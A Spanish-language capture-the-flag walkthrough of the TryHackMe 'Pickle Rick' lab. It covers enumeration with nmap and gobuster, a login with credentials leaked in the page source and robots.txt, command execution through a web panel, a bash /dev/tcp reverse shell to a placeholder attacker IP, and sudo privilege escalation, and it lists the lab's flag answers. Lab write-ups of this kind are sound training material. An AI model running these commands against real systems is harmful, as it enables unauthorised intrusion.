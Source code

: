 Pickle Rick es un CTF de nivel inicial de THM, en el cual se nos encomienda convertir nuevamente en humano a rick, que se encuentra convertido en pepinillo. Para esta tarea, debemos encontrar en la computadora de Rick los 3 ingredientes necesarios para que regrese a su estado de humano.

Primero debemo realizar la enumeración y el reconocimiento del sistema investigado.

# Enumeración
## nmap
Utilizando el comando `nmap -sC -sV 10.10.242.104 -oN nmapPick` obtenemos los siguientes resultados:

![Pasted image 20230218112511](https://user-images.githubusercontent.com/24280145/222928607-be1992f4-4dd1-4fa3-90a8-a47f34a60522.png)

**puertos abiertos**

`http 80`

`ssh 22`

## curl
utilizando el comando  `curl 10.10.242.104 > cPick`

![Pasted image 20230218110137](https://user-images.githubusercontent.com/24280145/222929129-a3ba3365-6c73-4dac-93e1-e80f1da6bb2b.png)

Encontramos un nombre de usuario en el documento HTML 

`Username: R1ckRul3s`


## Gobuster
Utilizando el comando `gobuster -u http://10.10.242.104 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` obtenemos lo siguiente

![Pasted image 20230218113243](https://user-images.githubusercontent.com/24280145/222929984-b355969d-1b50-49a6-a771-f3c85499b9b2.png)

Buscamos directorios con extensión .php y .html  `gobuster -u http://10.10.242.104 -t 50 -w /usr/share/wordlists/dirbuster/common.txt -x .php,.html`

**Nota**: La lista common.txt fue extraida de: https://gitlab.com/kalilinux/packages/dirb/blob/f43c03a2bef91118debffd6cec9573f21bb5f9e8/wordlists/common.txt

Utilizamos el comando `sudo mv common.txt /usr/share/wordlists/dirbuster/common.txt` para mover el archivo a la carpeta dirbuster (no es obligatorio)

![Pasted image 20230218120112](https://user-images.githubusercontent.com/24280145/222931429-c6f3160d-2b68-4314-8626-86964a4cc6de.png)

Con este informe conocemos que:
**index.html**: Es la página de inicio
**robots.txt**: contiene la cadena *Wubbalubbadubdub*
**login.php**: Nos muestra el siguietne acceso:


![Pasted image 20230218121122](https://user-images.githubusercontent.com/24280145/222931472-ad4667ac-1308-471a-8f55-769c46c0aebe.png)

# Obtención de acceso
Utilizando el username encontrado en el código *html de la web* y la cadena encontrada en *robots.txt*. Accedemos como usuarios del sistema en el **Potal Login Page**:

`username: R1ckRul3s`

`password: Wubbalubbadubdub`

![Pasted image 20230218121459](https://user-images.githubusercontent.com/24280145/222931603-18fac2c4-282a-44c7-b3c7-8ca1131fdee5.png)

### Ejecutando comandos

`whoami`

![Pasted image 20230218122054](https://user-images.githubusercontent.com/24280145/222931694-116e2af5-70e2-4953-9cba-38fac3088d00.png)

`pwd`


![Pasted image 20230218122147](https://user-images.githubusercontent.com/24280145/222931709-50e0e38b-7484-4872-9cac-169d3a2421e5.png)

`ls`

![Pasted image 20230218122256](https://user-images.githubusercontent.com/24280145/222931737-3a581e02-86e7-4dac-ac5d-5e128010fe91.png)

¡¡Hemos hallado el primer ingrediente...¡¡ pero los comandos estan filtrados de lectura de texto, y no podemos ver el contenido del fichero que contiene el segundo ingrediente

![Pasted image 20230218122725](https://user-images.githubusercontent.com/24280145/222931819-4bf64ac4-2de0-435b-a6ac-f7fe8f0ad763.png)

En este escenario podemos buscar nuevas soluciones (como acceder al sistema) o buscar un comando que si funcione (no este filtrado). realizando la prueba con los comandos `more`,`head`,`vim` ... Realizando prueba y error hallamos el comando `tac`. 


**Nota**: Para conocer los comandos de lectura de texto podemos visitar: https://www.geeksforgeeks.org/tac-command-in-linux-with-examples/

![Pasted image 20230218134055](https://user-images.githubusercontent.com/24280145/222931961-4a6b708e-f7aa-4e61-8116-240356af7a87.png)

**primer ingrediente**: `-r. meeseek hair`

![Pasted image 20230218133953](https://user-images.githubusercontent.com/24280145/222932243-b3b0cb51-e3ad-48d6-97a7-ea6c08317ba8.png)

el archivo `clue.txt` nos da la pista para el siguietne ingrediente:

![Pasted image 20230218123816](https://user-images.githubusercontent.com/24280145/222932262-3ab34109-3715-4cab-a655-3dc7a8efc5a8.png)

*Busca en el sistema de archivos el otro ingrediente.*

# Reverse Shell
Usando el comando `/bin/bash -c 'bash -i >& /dev/tcp/<IP_Atacante>/4444 0>&1'` en **Command Panel** abrimos el acceso al servidor.
posteriormente iniciamos un servidor de escucha con netcat: `nc -lvnp 4444` utilizando el puerto 4444

![Pasted image 20230218125944](https://user-images.githubusercontent.com/24280145/222932303-0d4eb873-a8e6-4dad-ae36-50e53ccec13a.png)

**Una vez dentro del sistema procedemos a navegar en los archivos**

![Pasted image 20230218130911](https://user-images.githubusercontent.com/24280145/222932321-6a4851e3-45a0-4464-844a-d09266cec24f.png)

En el directorio `home/rick/` hallamo el segundo ingrediente

![Pasted image 20230218131156](https://user-images.githubusercontent.com/24280145/222932345-9050b2e3-5386-4c08-818e-52446d8586b4.png)

**segundo ingrediente**: `jerry tear`

**Revisando los permisos, hallamos que la carpeta root no es accesible para los usuarios comunes**

![Pasted image 20230218132952](https://user-images.githubusercontent.com/24280145/222932378-d22be2b1-0447-438f-81d5-419e656a7c16.png)

# Escalamiento de privilegios 

En este caso la solución es relativamente sencilla pues el usuario www-data puede ejecutar con permiso sudo

![Pasted image 20230218132803](https://user-images.githubusercontent.com/24280145/222932420-4c878774-1fd7-471a-b0b8-711e63c43e5c.png)

**Ejecutamos bash como administrador**
Posteriormente ingresamos a la carpeta root `cd /root` y obtenemos el 3er ingrediente

![Pasted image 20230218133541](https://user-images.githubusercontent.com/24280145/222932655-ec7833ef-ecad-4ecb-a01a-92f181b2ed1d.png)

**tercer ingrediente**: `fleeb juice`
